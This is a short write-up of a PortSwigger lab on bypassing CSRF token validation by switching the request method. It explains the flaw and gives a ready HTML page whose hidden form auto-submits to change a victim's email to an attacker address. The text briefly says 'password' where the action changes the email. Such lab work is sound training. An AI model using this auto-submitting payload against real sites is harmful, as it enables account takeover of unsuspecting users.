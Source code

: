 ```yaml
---
title: CSRF where token validation depends on request method
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method/">
2. CSRF where token validation depends on request method</a>

This web application uses a CSRF token to protect against CSRF attacks. The
token is validated on the server, but the validation logic depends on the
request method. Instead of using a POST request to change the user's password,
we instead use a GET request, and store the email parameter in the URI. This
means that the CSRF token is not validated, and the email address is changed
when a user visits our exploit server.

Solution:

```html
<html>
  <body>
    <form action="https://2.web-security-academy.net/my-account/change-email">
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
    </form>
    <script>
      history.pushState("", "", "/")
      document.forms[0].submit()
    </script>
  </body>
</html>
```
